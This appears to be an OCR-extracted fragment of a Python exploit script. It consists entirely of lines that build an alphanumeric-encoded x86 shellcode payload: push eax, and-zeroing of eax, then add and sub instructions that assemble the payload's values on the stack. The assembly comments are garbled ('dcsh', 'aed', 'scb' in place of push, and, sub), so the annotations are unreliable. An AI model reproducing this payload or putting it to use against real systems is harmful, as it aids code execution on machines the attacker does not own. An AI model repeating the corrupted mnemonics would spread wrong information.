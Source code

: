 ```python
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x56\x71\x11\x31" ## add  eax, 0x31117156
shellcode += "\x05\x45\x62\x21\x21" ## add  eax, 0x21216245
shellcode += "\x05\x46\x51\x11\x21" ## add  eax, 0x21115146
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x17\x63\x12\x46" ## add  eax, 0x46126317
shellcode += "\x05\x16\x52\x12\x46" ## add  eax, 0x46125216
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x41\x22\x21" ## add  eax, 0x21224111
shellcode += "\x05\x22\x42\x21\x21" ## add  eax, 0x21214222
shellcode += "\x05\x11\x41\x22\x21" ## add  eax, 0x21224111
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x17\x56\x66" ## add  eax, 0x66561751
shellcode += "\x05\x41\x16\x45\x55" ## add  eax, 0x55451641
shellcode += "\x05\x41\x15\x43\x34" ## add  eax, 0x34431541
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x23\x23\x67\x33" ## add  eax, 0x33672323
shellcode += "\x05\x22\x12\x56\x33" ## add  eax, 0x33561222
shellcode += "\x05\x22\x22\x65\x33" ## add  eax, 0x33652222
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x07\x45\x65\x55" ## add  eax, 0x55654507
shellcode += "\x05\x06\x45\x64\x45" ## add  eax, 0x45644506
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x66\x32\x16\x33" ## add  eax, 0x33163266
shellcode += "\x05\x55\x41\x05\x33" ## add  eax, 0x33054155
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x76\x26\x11" ## add  eax, 0x11267643
shellcode += "\x05\x43\x65\x26\x10" ## add  eax, 0x10266543
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x12\x26\x46\x13" ## add  eax, 0x13462612
shellcode += "\x05\x02\x16\x46\x14" ## add  eax, 0x14461602
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x06\x43\x70\x64" ## add  eax, 0x64704306
shellcode += "\x05\x05\x43\x70\x54" ## add  eax, 0x54704305
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x66\x65\x66" ## add  eax, 0x66656676
shellcode += "\x05\x65\x55\x54\x56" ## add  eax, 0x56545565
```